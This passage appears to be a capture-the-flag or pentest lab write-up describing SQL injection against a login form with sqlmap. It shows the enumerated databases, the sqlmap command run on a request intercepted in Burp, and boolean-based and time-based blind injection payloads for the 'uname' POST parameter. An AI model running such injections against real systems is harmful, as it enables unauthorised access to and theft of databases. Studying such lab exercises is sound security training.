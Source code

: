 ```
available databases [6]:
[*] hawkeye
[*] information_schema
[*] mysql
[*] performance_schema
[*] robin
[*] sys
```

![](https://i.imgur.com/UgrDBOH.png)




we can explore two dbs which can be potential hawkeye and robin. others are system db and default ones which i wouldnt find anything potential 

before exploring, i intercepted the loging req and wanted to check which injections can be applied by this command.

```bash
└─$ sqlmap -r Desktop/omar/pentesting/login.req --batch
```
i took the interception from burp and it showed that it has identifies two injection points using POST


```
sqlmap identified the following injection point(s) with a total of 233 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: uname=h@x.y' AND 4354=4354 AND 'OAYN'='OAYN&pw=123&remember=on

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=h@x.y' AND (SELECT 8620 FROM (SELECT(SLEEP(5)))cFCS) AND 'QFOs'='QFOs&pw=123&remember=on
---
```

![](https://i.imgur.com/s74mYza.png)




by this, we will be using the techniques introduced by sqlmap to ease the process as follows:

```bash
--technique=TECH # for the type of the attack
# for example Boolean or Union attack techniques 
U # Union attack
B # Boolean attack
E # Error based
```

since it showed that there are 2 injection points one is time-based and one is boolean. i specified the technique for boolean and ran the command to retrieve the tables of hawkeye.
